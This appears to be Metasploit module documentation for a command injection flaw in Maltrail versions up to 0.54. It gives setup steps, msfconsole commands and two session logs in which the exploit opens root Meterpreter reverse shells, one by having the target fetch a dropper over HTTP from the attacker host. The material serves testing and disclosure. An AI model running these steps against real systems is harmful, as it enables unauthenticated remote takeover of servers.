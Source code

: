 ## Vulnerable Application

Maltrail is a malicious traffic detection system, utilizing publicly
available blacklists containing malicious and/or generally suspicious trails.
The Maltrail versions <= 0.54 is suffering from a command injection vulnerability.
The `subprocess.check_output` function in `mailtrail/core/http.py` contains
a command injection vulnerability in the `params.get("username")` parameter.
An attacker can exploit this vulnerability by injecting arbitrary OS commands
into the username parameter. The injected commands will be executed with the
privileges of the running process. This vulnerability can be exploited remotely
without authentication.

This issue was discovered and reported by Chris Wild @briskets.
Check [here](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) for the original report.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://github.com/stamparm/maltrail/tree/0.53#quick-start)
2. After cloning the git project, simply do `git checkout 0.53` and proceed with the rest of the steps.

After these steps the Maltrail web interface will be exposed on the `http://<target>:8338/`.

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/maltrail_rce`
3. Do: `set RHOST [IP]`
3. Do: `set LHOST [IP]`
4. Do: `run`

## Options

## Scenarios

```
msf > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Unix Command...
[*] Sending stage (24772 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:42250) at 2023-08-10 22:31:03 +0200

meterpreter > sysinfo 
Computer     : bab669395cfe
OS           : Linux 6.4.7-hardened1-2-hardened #1 SMP PREEMPT_DYNAMIC Wed, 02 Aug 2023 11:05:52 +0000
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid 
Server username: root
meterpreter > 
```

```
msf > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Linux Dropper...
[*] Using URL: http://172.17.0.1:8080/Y9BtoN1
[*] Client 172.17.0.2 (Wget/1.21.2) requested /Y9BtoN1
[*] Sending payload to 172.17.0.2 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (172.17.0.1:4444 -> 172.17.0.2:48664) at 2023-08-10 22:33:27 +0200
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Server stopped.

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: root
meterpreter > 

```
